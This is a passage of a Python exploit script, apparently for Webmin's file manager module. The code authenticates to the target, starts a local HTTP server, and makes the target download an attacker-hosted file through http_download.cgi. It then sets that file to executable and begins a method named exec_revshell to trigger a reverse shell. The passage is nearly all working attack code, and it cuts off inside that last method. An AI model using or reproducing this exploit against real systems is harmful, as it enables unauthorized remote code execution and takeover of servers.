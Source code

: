 ```python
        f.write(payload)
        f.close()

    def login(self):
        login_url = self.target + "/session_login.cgi"
        cookies = { "redirect": "1", "testing": "1", "PHPSESSID": "" }

        data = { 'user' : self.username, 'pass' : self.password }
        try:
            r = self.s.post(login_url, data=data, cookies=cookies, verify=False, allow_redirects=True, timeout=10)
            success_message = 'System hostname'
            if success_message in r.text:
                print(TGREEN + "[+] Login Successful", ENDC)
            else:
                print(TRED +"[-] Login Failed", ENDC)
                exit()

        except requests.Timeout as e:
            print(TRED + f"[-] Target: {self.target} is not responding, Connection timed out", ENDC)
            exit()

    def pyhttp_server(self):
        print(f'[+] Attempt to host http.server on {self.pyhttp_port}\n')
        os.system(f'(setsid $(which python3) -m http.server {self.pyhttp_port} 0>&1 & ) ') # add 2>/dev/null for clean up
        print('[+] Sleep 3 second to ensure http server is up!')
        time.sleep(3) # Sleep for 5 seconds to ensure http server is up!

    def download_remote_url(self):
        download_url = self.target + "/extensions/file-manager/http_download.cgi?module=filemin"
        headers = { 
                    "Accept": "application/json, text/javascript, */*; q=0.01", 
                    "Accept-Encoding": "gzip, deflate", 
                    "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8", 
                    "X-Requested-With": "XMLHttpRequest", 
                    "Referer": self.target + "/filemin/?xnavigation=1" 
        }

        data = { 
                'link': "http://" + self.py3http_server + "/" + self.fname, 
                'username': '', 
                'password': '', 
                'path': self.upload_path 
        }

        r = self.s.post(download_url, data=data, headers=headers, verify=False, allow_redirects=True)
        print(f"\n[+] Fetching {self.fname} from http.server {self.py3http_server}")

    def modify_permission(self):
        modify_perm_url = self.target + "/extensions/file-manager/chmod.cgi?module=filemin&page=1&paginate=30"
        headers = { "Referer": self.target + "/filemin/?xnavigation=1" }
        data = { "name": self.fname, "perms": "0755", "applyto": "1", "path": self.upload_path }
       
        r = self.s.post(modify_perm_url, data=data, headers=headers, verify=False, allow_redirects=True)
        print(f"[+] Modifying permission of {self.fname} to 0755")

    def exec_revshell(self):
        url = self.target + '/' + self.fname
```
